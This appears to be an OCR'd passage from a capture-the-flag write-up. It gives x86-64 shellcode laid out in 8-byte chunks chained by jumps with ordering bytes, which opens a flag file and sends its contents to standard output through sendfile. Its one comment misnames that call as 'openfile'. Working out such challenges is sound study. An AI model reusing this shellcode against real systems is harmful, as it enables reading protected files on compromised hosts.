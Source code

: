 ```nasm
 | 
 v
instructions + jump + nop_padding + byte02 = 8 bytes
                 |
 -----------------
 |
 v
instructions + jump + nop_padding + byte03 = 8 bytes
                 |
 -----------------
 |
 v
instructions + jump + nop_padding + byte04 = 8 bytes
                 |
 -----------------
 |
 v
instructions + jump + nop_padding + byte05 = 8 bytes
```
last byte will be the msb hence, the array is already sorted.
```nasm
.intel_syntax noprefix

.global _start

.start:
    ; open(flag, 0)
    push 0x66
    mov rdi, rsp
    jmp pwn
    .byte 1
pwn:
    xor esi, esi
    xor eax, eax
    jmp one
    nop
    .byte 2
one:
    mov al, 2
    syscall
    jmp two
    nop
    .byte 3
two:
    ; openfile(1, rax, 0, 0x100)
    xor edi, edi
    inc edi
    jmp three
    nop
    .byte 4
three:
    mov rsi, rax
    xor edx, edx
    jmp four
    .byte 5
four:
    mov r10w, 0x100
    jmp five
    .byte 6
five:
    xor eax, eax
    mov al, 40
    syscall
```